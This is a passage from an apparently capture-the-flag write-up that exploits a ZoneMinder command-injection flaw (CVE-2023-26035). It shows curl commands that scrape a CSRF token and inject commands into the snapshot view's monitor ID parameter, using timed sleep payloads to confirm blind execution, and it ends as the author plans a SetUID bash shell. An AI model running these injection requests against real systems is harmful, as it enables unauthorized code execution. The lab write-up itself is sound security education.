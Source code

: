 To exploit this, I’ll need to get a CSRF token from the index page:

```

oxdf@hacky$ curl localhost:8888 -s | grep input | grep csrf_magic
                <form class="center-block" name="loginForm" id="loginForm" method="post" action="?view=login"><input type='hidden' name='__csrf_magic' value="key:827e7c381ce800986c8eaf05be675f1aaf2b048a,1713472410" />
oxdf@hacky$ curl localhost:8888 -s | grep input | grep csrf_magic | cut -d'"' -f12
key:f9baaa62f1487f7836cf6070f6d156fd5e75a45a,1713472444
oxdf@hacky$ CSRF=$(curl localhost:8888 -s | grep input | grep csrf_magic | cut -d'"' -f12)
oxdf@hacky$ echo $CSRF
key:df9180712415a1f92e5f81926168eb7d4c884cbd,1713472462

```

It does seem to change on each request.

[This Feb 2023 post](https://securityonline.info/cve-2023-26035-rce-flaw-in-open-source-software-application-zoneminder/) gives nice details on the vulnerability. It is in the snapshot view, where it takes the user input id and without sanitizing it, makes a command including the id that’s run via `shell_exec`.

From the [Metasploit exploit](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/webapp/zoneminder_snapshots.rb) I’ll get the URL and data format.

Testing with a sleep seems to show whatever command is run is run twice:

```

oxdf@hacky$ time curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;sleep 5&__csrf_magic=${CSRF}"

real    0m10.280s
user    0m0.005s
sys     0m0.000s
oxdf@hacky$ time curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;sleep 2&__csrf_magic=${CSRF}"

real    0m4.274s
user    0m0.005s
sys     0m0.000s
oxdf@hacky$ time curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;sleep 1&__csrf_magic=${CSRF}"

real    0m2.296s
user    0m0.006s
sys     0m0.000s

```

The output is not returned, so it’s blind, but that’s ok.

#### Shell

To get a shell, I’ll just make a copy of `bash` and set it SetUID/SetGID:
